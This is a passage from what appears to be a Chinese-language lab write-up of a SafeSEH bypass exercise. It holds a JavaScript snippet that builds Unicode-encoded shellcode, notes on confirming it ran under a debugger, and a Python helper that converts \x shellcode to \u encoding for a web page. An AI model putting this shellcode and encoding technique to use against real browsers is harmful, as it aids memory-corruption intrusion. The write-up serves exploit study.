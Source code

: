 ```js
	s += "\u1c49\u098b\u698b\uad08\u6a3d\u380a\u751e\u9505";
	s += "\u57ff\u95f8\u8b60\u3c45\u4c8b\u7805\ucd03\u598b";
	s += "\u0320\u33dd\u47ff\u348b\u03bb\u99f5\ube0f\u3a06";
	s += "\u74c4\uc108\u07ca\ud003\ueb46\u3bf1\u2454\u751c";
	s += "\u8be4\u2459\udd03\u8b66\u7b3c\u598b\u031c\u03dd";
	s += "\ubb2c\u5f95\u57ab\u3d61\u0a6a\u1e38\ua975\udb33";
	s += "\u6853\u6a2d\u626f\u6768\u6f6f\u8b64\u53c4\u5050";
	s += "\uff53\ufc57\uff53\uf857";
```

保存并重新打开页面，用OD附加，跟到跳板执行后：

![Bildschirmfoto 2018-10-02 um 2.38.54 PM.png]({{ site.url }}/images/0day/D295B615B5D74E42529F8FA31DC4B1E9.png)

说明shellcode正常执行。

测试：

![Bildschirmfoto 2018-10-02 um 2.36.53 PM.png]({{ site.url }}/images/0day/AE67A90BED7DDA4F12C629871F9275A3.png)

整个实验中需要注意的是，Web页面的编码为Unicode，在填写shellcode时注意格式和顺序。

可以通过以下代码来将`\x`编码的shellcode转换为`\u`编码：

```py
z = '0xfc0x68...'

i = 0
w = ""
lz = z.split("0x")[1:]
while(i < len(lz)):
    if(len(lz[i]) == 1):
        lz[i] = "0" + lz[i]
    if(len(lz[i+1]) == 1):
        lz[i+1] = "0" + lz[i+1]
    w += '\\u' + lz[i+1] + lz[i]
    i += 2

print(w)
```

## 总结

可以看看别人的笔记：

- [《0day安全》——盲羊补牢：SafeSEH](http://oldblog.giantbranch.cn/?p=519)
- [0day安全safeSEH绕过实验](https://larry.ngrep.me/2017/10/22/0day-safeseh-bypass-exercise/)
